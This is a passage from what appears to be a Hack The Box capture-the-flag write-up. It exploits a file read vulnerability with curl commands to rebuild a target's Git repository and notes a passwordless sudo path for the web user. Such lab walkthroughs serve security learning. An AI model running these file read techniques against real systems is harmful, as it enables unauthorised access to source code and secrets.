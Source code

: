     function git_commit()
    {
        $commit = shell_exec('sudo -u svc /var/www/image/scripts/git-commit.sh');
        return $commit;
    }
    

The first thing to look at is the `shell_exec` calls, but it seems that no
user input is used to form the commands, so there’s not command execution
there. It is interesting to note for later that the user running the webserver
is able to run `sudo` as svc for these commands without a password. I’ll come
back to `git-commit.sh` as well.

This script also suggests there is a Git repository here.

    
    
    oxdf@hacky$ curl http://localhost:5000/var/www/image/.git/config
    [core]
            repositoryformatversion = 0
            filemode = true
            bare = false
            logallrefupdates = true
    

It’s there.

#### Download Repo Manually

The author’s intended path is to rebuild the repo manually using the file read
vulnerability. [This man page](https://git.seveas.net/manpages/gitrepository-
layout.html) shows the layout of a Git repo. I’ll start in an empty directory
initializing the repo:

    
    
    oxdf@hacky$ git init
    Initialized empty Git repository in ~/hackthebox/encoding-10.10.11.198/git-manual/.git/
    

I’ll add `config` and `HEAD`:

    
    
    oxdf@hacky$ curl -s http://localhost:5000/var/www/image/.git/config > .git/config
    oxdf@hacky$ curl -s http://localhost:5000/var/www/image/.git/HEAD | tee .git/HEAD
    ref: refs/heads/master
    

Knowing the HEAD, I’ll fetch the file in `refs/heads/[branch name]` that will
give the “tip-of-the-tree” commit:

    
    
    oxdf@hacky$ mkdir -p .git/refs/heads
    oxdf@hacky$ curl -s http://localhost:5000/var/www/image/.git/refs/heads/master | tee .git/refs/heads/master
    9c17e5362e5ce2f30023992daad5b74cc562750b
    

I’m using `tee` to both see the contents of the file and save the file into my
repo. The commit is a SHA1 hash, and the associated objects will be in
`.git/objects/[first two char of sha1]/[rest of sha1]`:
